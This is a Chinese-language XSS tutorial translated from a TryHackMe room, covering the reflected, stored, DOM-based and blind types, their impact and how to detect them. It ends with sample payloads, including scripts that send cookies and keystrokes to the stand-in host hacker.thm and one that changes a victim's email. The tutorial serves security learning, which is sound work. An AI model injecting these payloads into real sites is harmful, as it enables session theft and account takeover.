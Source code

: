 # Cross-site Scripting
## 前言
翻阅自 tryhackme 的 XSS 房间（纯手工），我的翻译可能有点别扭，英文好的读者朋友们可以看看原文：https://tryhackme.com/room/xssgi
>坦白地说我觉得 tryhackme 的讲漏洞的房间都不是特别好，但是入门足矣。
## 反射型XSS
在一个HTPP请求中，当用户提供的数据在没有任何验证的情况下就被包含在网页中，此时就容易出现反射型XSS漏洞。
### 样例场景
假设我们有一个网站，若输入了不正确的数据，那么网站就会展示错误信息给我们。错误信息的内容来自于 url 查询字符串中的 error 参数，同时该内容被直接地插入到网页的源代码中![](https://i.imgur.com/pzdoZeC.png)
如果应用程序没有检查 error 参数的内容，那么攻击者就可以插入恶意的代码。

**比如插入如下的恶意JS代码：**

![](https://i.imgur.com/cJSLQ3R.png)
![](https://i.imgur.com/Nz9s035.png)

以上漏洞可以用下图的场景来描述：

![](https://i.imgur.com/9GV6EZE.png)
1. 攻击者发送一个包含恶意 payload 的链接给受害者
2. 受害者点击链接并被带到存在漏洞的网站
3. 包含攻击者恶意脚本的链接在含有漏洞的网站上执行
4. 攻击者的脚本将搜集到的数据发送给攻击者，攻击者能够偷取受害者的Cookie，这将允许攻击者登录受害者的账户。

### 潜在影响

攻击者可以向潜在受害者发送链接或将其嵌入到另一个网站的 iframe 中，其中包含 JavaScript payload ，使他们在浏览器上执行代码，可能会泄露会话或客户信息。

### 如何检测反射型XSS

需要测试每个可能的输入点，包括：
- 在 URL 查询字符串中的参数
- URL 文件路径
- HTTP 头部（尽管在实际中不太可能存在反射型XSS）

一旦你已找到一些被 web 应用程序反射回来的数据，那么你就需要确认你可以成功地执行你的 JavScript payload。你的 payload 将会依赖于你的代码在应用程序中被反射的位置。

**小问题**

在一个 URL 中，什么位置是测试反射型XSS的好地方？

## 存储型XSS
顾名思义，XSS payload 被存储到了 web 应用程序中（例如在数据库中）并在其他用户访问站点或是网页时被执行。

### 样例场景
有一个允许用户发表评论的博客网站，网站没有检查这些评论是否包含 JavaScirpt，也没有对任何恶意代码进行过滤。如果我们现在发表一个包含 JavaScript 的评论，等该评论被存储到数据库中之后，那么每个访问该评论的用户都将会在他们的浏览器上  运行 JavaScript 代码。
![](https://i.imgur.com/6H99dwT.png)

1. 攻击者将恶意 payload 嵌入到网站的数据库中
2. 对网站的每个浏览都会使得恶意脚本被激活
3. 攻击者的脚本将搜集到的数据发送给他们，他们能够偷取受害者的 cookie，这将允许攻击者登录受害者的账户。

### 潜在的影响
恶意的 JavaScript 脚本能够将用户重定向到另一个网站，偷取用户的会话 cookie 或是以用户的身份进行其他的网站行为。

### 如何检测存储型XSS

和反射型 XSS 的操作基本一样，都是要测试所有可能的输入点。但是要测试那些看起来会被存储的，同时又会被展示在其他的用户可以访问的某个区域的所有可能的输入点，一些小例子可能包括：

- 在一个博客网站上的评论
- 用户配置信息
- 网站列表

有时开发人员认为限制客户端的输入值已经足够好了，所以将值更改为 web 应用程序不期望的值是发现存储型 XSS 的一个很好的来源。举个例子，一个年龄字段，期望从下拉菜单中得到一个整数，但是您手动发送请求，而不是使用允许您尝试恶意有效负载的表单。
一旦你已经找到某个被存储在 web 应用程序中的数据，那么你需要确认你能成功地运行你的 JavaScript payload

## DOM 型 XSS
### 什么是 DOM？
DOM表示文档对象模型（Document Object Model），是一个 HTML 和 XML 文档的编程接口。其代表了页面以便程序能够改变文档的结构、样式、内容等。
一个 web 页面是一个文档，该文档可以展示在浏览器的窗口中或是作为 HTML 源。一个 HTML DOM 如下图所示：
![](https://i.imgur.com/LLBjXoc.png)
如果你想学习更多有关 DOM 的知识，可以参考 [w3.org](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html)

**对 DOM 进行漏洞利用**
DOM 型 XSS 是指 JavaScript 直接在浏览器中执行，无需加载任何新页面或将数据提交给后端代码。执行发生在网站 JavaScript 代码作用于输入或用户交互时。

### 样例场景
网站的 JavaScript 从 window.location.hash 参数中获取内容然后将其写到当前页面正在查看的部分。网站没有对 hash 的内容进行恶意代码检查，允许攻击者注入他们选择的 JavaScript 到 web 页面中。

### 潜在的影响
精心设计的链接被发送给潜在的受害者，将他们重定向到另一个网站，或是从网页中和用户的会话中偷取内容。

### 如何测试 DOM 型 XSS？
测试 DOM 型 XSS 是一个比较有挑战的工作，需要相当数量的 JavaScript 的知识以看懂源代码。你需要查找代码中访问特定变量的部分，且这些变量能被攻击者完全控制，比如 “window.location.x” 参数。
一旦你已找到这些代码串，您需要查看它们是如何处理的，以及这些值是否曾被写入网页的 DOM 或传递给不安全的 JavaScript 方法，例如 eval()。

## Blind XSS-XSS 盲打
Blind XSS 有点类似于存储型 XSS，同样是 payload 被存储到网站中并且其他用户可以查看，但是不同之处在于我们无法看到 Blind XSS 的 payload 是否生效。
### 样例场景
一个网站有一个联系表格，你可以在上面给工作人员发消息。网站未对消息的内容作恶意代码检查，允许攻击者输入他们想要的一切数据。然后，这些消息会变成支持工单，员工可以在私人门户网站上查看这些工单。

### 潜在影响
使用正确的 payload，攻击者的 JS 脚本就能回调到他们的网站，并揭示出员工们的门户网站、员工的 cookies 甚至是正被查看的门户网站的内容。之后攻击者就有可能劫持员工的会话并有权访问私人站点。
### 如何检测 Blind XSS
当检测 Blind XSS 漏洞时，你需要确保你的 payload 有一个 回调（通常是一个 HTTP 请求），因为只有这样你才能知道你的代码是否被执行了。
一个流行的用于 Blind XSS 的工具是 [xsshunter](https://xsshunter.com/)，尽管你可以用JS写一个你自己的工具，但是 xsshunter 会自动捕捉 cookies、URLS、页面内容等。

### 一些常见的 XSS payload
#### POC
```javascript=
<script>alert('XSS');</script>
```
#### 偷取会话
```javascript=
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
#### 抓如用户输入
```javascript=
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
#### 修改用户邮箱
这个 payload 比上面的例子具体得多。这将涉及调用特定的网络资源或 JavaScript 函数。例如，假设有一个名为 user. changeemail() 的 JavaScript 函数用于更改用户的电子邮件地址。你的 payload 可以是这样的：
```javascript=
<script>user.changeEmail('attacker@hacker.thm');</script>
```
现在该帐户的电子邮件地址已经更改，攻击者可能会执行重置密码攻击。
